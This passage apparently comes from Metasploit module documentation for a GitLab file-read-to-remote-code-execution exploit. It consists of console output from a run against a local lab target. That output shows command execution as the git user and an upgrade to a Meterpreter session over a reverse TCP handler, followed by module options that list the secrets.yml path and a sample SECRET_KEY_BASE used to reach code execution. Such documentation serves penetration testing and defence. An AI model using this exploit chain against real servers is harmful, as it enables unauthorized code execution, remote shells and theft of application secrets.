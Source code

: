 ```
[*] Attempting to delete project /test/5W350yP1
[*] Deleted project /test/5W350yP1

whoami
git
^Z
Background session 23? [y/N]  y
msf exploit(multi/http/gitlab_file_read_rce) > sessions -u 23
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [23]

[!] SESSION may not be compatible with this module.
[*] Upgrading session ID: 23
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 172.17.0.1:4433
[*] Sending stage (976712 bytes) to 172.17.0.2
[*] Meterpreter session 24 opened (172.17.0.1:4433 -> 172.17.0.2:45442) at 2020-11-21 21:34:34 -0500
[*] Command stager progress: 100.00% (773/773 bytes)
msf exploit(multi/http/gitlab_file_read_rce) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                                     Connection
  --  ----  ----                   -----------                                                     ----------
  23        shell ruby/ruby                                                                        172.17.0.1:4444 -> 172.17.0.2:34058 (127.0.0.1)
  24        meterpreter x86/linux  git @ 622b6a4c6722 (uid=998, gid=998, euid=998, egid=998) @ 17  172.17.0.1:4433 -> 172.17.0.2:45442 (172.17.0.2)
                                   2.17.0.2

msf exploit(multi/http/gitlab_file_read_rce) >
```

### Specifying SECRET_KEY_BASE to RCE

```
msf exploit(multi/http/gitlab_file_read_rce) > options

Module options (exploit/multi/http/gitlab_file_read_rce):

   Name             Current Setting                            Required  Description
   ----             ---------------                            --------  -----------
   DEPTH            15                                         yes       Define the max traversal depth
   PASSWORD                                                    no        The password for the specified username
   Proxies                                                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS           127.0.0.1                                  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:
                                                                         <path>'
   RPORT            80                                         yes       The target port (TCP)
   SECRETS_PATH     /opt/gitlab/embedded/service/gitlab-rails  yes       The path to the secrets.yml file
                    /config/secrets.yml
   SECRET_KEY_BASE  301ee96a664dc634b8766368d26b4ef4deb46c593  no        The known secret_key_base from the secrets.yml - this skips the arbitrary f
                    490dc1f39526e0f278f2dfcb9f5c9bb13c74b5377            ile read if present
                    848259a533c9ad137885c01a4387deb799e14589a
                    6fbac
```